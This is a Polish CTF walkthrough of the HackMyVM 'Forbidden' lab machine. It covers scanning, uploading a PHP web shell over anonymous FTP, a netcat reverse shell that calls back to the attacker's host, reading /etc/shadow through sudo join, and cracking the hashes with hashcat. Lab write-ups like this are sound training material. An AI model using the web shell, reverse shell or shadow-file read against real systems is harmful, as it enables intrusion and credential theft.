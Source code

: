 ```yaml
---
title: "Forbidden - sML"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - Forbidden
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Forbidden - sml
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Nazwa:|Forbidden|
|Autor:|[sML](https://hackmyvm.eu/profile/?user=sml)|
|Wypuszczony:|2020-10-09|
|Ściągnij:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Forbidden)|
|Poziom:|Średni|
|System:|Linux|
|Nauczysz się:|Reverse Engineering, sprytu|

# 01. Wstęp
**Forbidden** dosyć długo leżał u mnie na dysku, zapomniałem o niej. Dopiero wróciłem w roku 2024, ale dzięki temu wyszła jedna ciekawostka (zaplanowana lub nie). Maszynka jest dosyć prosta, mimo że ma status middle, jednak ma dużo króliczych nor i chyba dzięki temu jest bardzo ciekawa, mimo swojego wieku. 
{: .text-justify}
# 02. Co to za maszyna?
Po wstępnym wykryciu ip **Netdiscoverem**
{: .text-justify}
```bash
netdiscover -P -r 172.16.1.0 | grep "PCS Systemtechnik GmbH"
```
```bash
# 172.16.1.161    08:00:27:3c:42:d7      1      60  PCS Systemtechnik GmbH
```
i skanowaniu **Nmapem**:
{: .text-justify}
```bash
db_nmap -A -p- 172.16.1.161
```
```bash
# host          port  proto  name  state  info
# ----          ----  -----  ----  -----  ----
# 172.16.1.161  21    tcp    ftp   open   vsftpd 3.0.3
# 172.16.1.161  80    tcp    http  open   nginx 1.14.2
```
widzimy, że mamy otwarte porty: 
{: .text-justify}
- **21/tcp** - FTP
- **80/tcp** - Apache WWW
Wchodząc na strone:
{: .text-justify}
![01](/assets/images/hacking/2024/01/01.png)
dostajemy dużo informacji, między innymi, że Marta jest najlepszym adminem na świecie (zobaczymy). Jest zadowolona, że nikt się jej nie włamie, bo _PHP_ wyłączyła (zobaczymy znowu).
{: .text-justify}
# 03. Co jest w środku?
## WWW
Najpierw przeskanujmy ten system programem **Forexbuster**:
{: .text-justify}
```bash
feroxbuster -x txt,php -u http://172.16.1.161
```
```bash
#  ___  ___  __   __     __      __         __   ___
# |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
# |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
# by Ben "epi" Risher 🤓                 ver: 2.10.1
# ───────────────────────────┬──────────────────────
#  🎯  Target Url            │ http://172.16.1.161
#  🚀  Threads               │ 50
#  📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
#  👌  Status Codes          │ All Status Codes!
#  💥  Timeout (secs)        │ 7
#  🦡  User-Agent            │ feroxbuster/2.10.1
#  💉  Config File           │ /etc/feroxbuster/ferox-config.toml
#  🔎  Extract Links         │ true
#  💲  Extensions            │ [txt, php]
#  🏁  HTTP methods          │ [GET]
#  🔃  Recursion Depth       │ 4
# ───────────────────────────┴──────────────────────
#  🏁  Press [ENTER] to use the Scan Management Menu™
# ──────────────────────────────────────────────────
# 404      GET        7l       12w      169c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
# 200      GET        8l       41w      241c http://172.16.1.161/
# 200      GET        1l        1w       10c http://172.16.1.161/robots.txt
# 200      GET        1l       12w       75c http://172.16.1.161/note.txt
# [####################] - 33s    90000/90000   0s      found:3       errors:0      
# [####################] - 33s    90000/90000   2744/s  http://172.16.1.161/          
```
Znalezione zostały pliki: _robots.txt_ i _note.txt_. W _note.txt_ jest taka informacja ```The extra-secured .jpg file contains my password but nobody can obtain it.```. To się przyda później.
{: .text-justify}
## FTP
Mamy dostęp do FTP-a za pomocą konta **anonymous**, do tego się okazuję, że możemy też wgrywać tam pliki. Pliki o rozszerzeniu _.php_ można tam wrzucić, ale niestety się nie uruchomią wchodząc przez stronę. Za to nasza najlepsza adminka na świecie chyba zapomniała, że są inne rozszerzenia typu _.php5_. Wrzućmy tam nasz shell, którego zawartość tak wygląda:
{: .text-justify}
```php
<?php
echo shell_exec($_REQUEST['cmd']);
?>
```
Na **FTP** zaś możemy zrobić coś takiego, po prostu wrzucić ten plik.
{: .text-justify}
```bash
ftp 172.16.1.161
```
```bash
# Connected to 172.16.1.161.
# 220 (vsFTPd 3.0.3)
# Name (172.16.1.161:szikers): anonymous
# 331 Please specify the password.
Password: 
# 230 Login successful.
# Remote system type is UNIX.
# Using binary mode to transfer files.
ftp> put shell.php5
# 229 Entering Extended Passive Mode (|||23644|)
# 150 Here comes the directory listing.
# drwxrwxrwx    2 0        0            4096 Jan 05 20:53 www
# 226 Directory send OK.
ftp> cd www
# 250 Directory successfully changed.
ftp> put shell.php5
```
# 04. Reverse Shell
Odpalamy nasz Reverse Shell:
{: .text-justify}
## Nasłuchiwacz
```bash
nc -lvp 12345
```
## Kod na stronie
Wklejamy przez przeglądarkę:
{: .text-justify}
```
172.16.1.161/shell.php5?cmd=php%20-r%20%22system%20%28%27nc%20-c%20%2Fbin%2Fbash%20172.16.1.89%2012345%27%29%3B%22%20
```
# 05. Konta użytkowników
## www
w katalogu ```/var/www/html``` mamy obrazek **TOPSECRETIMAGE.jpg**. Można go rozpakować, wydobyć z niego hasło, itd... jednak na nic się to nie przyda, bo hasłem do konta marta jest **Nazwa obrazka** :smiley:
{: .text-justify}
## marta
```bash
su - marta
```
Będąc na koncie _marta_ wydajemy komendę _sudo -l_. Wynikiem zaś jest:
{: .text-justify}
```bash
marta@forbidden:~$ sudo -l
# Matching Defaults entries for marta on forbidden:
#    env_reset, mail_badpass,
#    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

# User marta may run the following commands on forbidden:
#    (ALL : ALL) NOPASSWD: /usr/bin/join
```
Niestety polecenie _sudo /usr/bin/join_ nie daje nam dostępu do konta **Roota**, jednak umożliwia przeczytanie pliku _/etc/shadow_. W nim zaś są zawarte hasła.
```bash
sudo  /usr/bin/join -a2 /dev/null /etc/shadow
```
## root
Poszliśmy na skróty, Nie wiem jak było w 2020 roku, ale teraz **Hashcat** ze słownika _rockyou.txt_ odszyfrował nam hasło użytkownika _peter_ i dodatkowo _root_ (to była ta ciekawostka). Nie musimy już przechodzić przez konto _peter_.
{: .text-justify}
```powershell
PS C:\temp\hashcat> .\hashcat.exe -O -a0 -m1800 .\hashe\forbidden.txt .\dict\rockyou.txt --show
$6$8nU2FdqnxRtT9mWF$9q7El.D7BDrlzNyYYPNqjTcwsQEsC7utrzszLgbe9V.3KqYSfx2XgqjIEeToP41TJTiZQOGVsdCzIAYHw5O.51:lalu******
$6$QAeWH9Et9PAJdYz/$/4VhburW9KoVTRY1Ry63wNEfr4rxwQGaRJ3kKW2nEAk0LcqjqZjy/m5rtaCi3VebNu7AaGFhQT4FBgbQVIyq81:bo******
```